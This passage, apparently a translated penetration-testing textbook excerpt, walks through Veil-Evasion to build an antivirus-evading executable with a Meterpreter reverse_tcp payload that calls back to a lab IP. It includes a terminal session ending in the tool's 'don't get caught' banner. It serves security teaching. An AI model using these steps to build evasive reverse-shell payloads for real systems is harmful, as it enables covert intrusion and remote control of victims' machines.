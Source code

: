 ```
    generate        generate payload
    back            go to the main menu
    exit            exit Veil
```

默认情况下，该有效载荷将使用 `VirtualAlloc()` 作为注入方法，将 Python 脚本编译成可执行文件 ❶。这些选项对于我们的示例是正确的，因此在提示符下输入**`generate`**。然后，系统会提示您输入关于 shellcode 的详细信息，如示例 12-12 所示。

示例 12-12. 在 Veil-Evasion 中生成可执行文件

```
[?] Use msfvenom or supply custom shellcode?

        1 - msfvenom (default)
        2 - Custom

 [>] Please enter the number of your choice: **1**

 [*] Press [enter] for windows/meterpreter/reverse_tcp
 [*] Press [tab] to list available payloads
 [>] Please enter metasploit payload:
 [>] Enter value for 'LHOST', [tab] for local IP: **192.168.20.9**
 [>] Enter value for 'LPORT': **2345**
 [>] Enter extra msfvenom options in OPTION=value syntax:

 [*] Generating shellcode...
 [*] Press [enter] for 'payload'
 [>] Please enter the base name for output files: **meterpreterveil**

 [?] How would you like to create your payload executable?

        1 - Pyinstaller (default)
        2 - Py2Exe

 [>] Please enter the number of your choice: **1**
--*snip*--
 [*] Executable written to: /root/veil-output/compiled/meterpreterveil.exe

 Language:    python
 Payload:    AESEncrypted
 Shellcode:    windows/meterpreter/reverse_tcp
 Options:    LHOST=192.168.20.9  LPORT=2345
 Required Options:    compile_to_exe=Y  inject_method=virtual  use_pyherion=N
 Payload File:    /root/veil-output/source/meterpreterveil.py
 Handler File:    /root/veil-output/handlers/meterpreterveil_handler.rc

 [*] Your payload files have been generated, don't get caught!
 [!] And don't submit samples to any online scanner! ;)
```

Veil-Evasion 会提示您选择使用 Msfvenom 生成 shellcode，或提供自定义的 shellcode。为了我们的目的，选择 Msfvenom。默认有效载荷是*windows/meterpreter/reverse_tcp*，按回车键选择它。然后，系统会提示您输入常规选项，如`LHOST`和`LPORT`，并为生成的可执行文件指定文件名。最后，Veil-Evasion 提供两种将 Python 转换为可执行文件的方法。选择默认的`Pyinstaller`，让 Veil-Evasion 生成恶意可执行文件并保存到*veil-output/compiled*目录。


 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
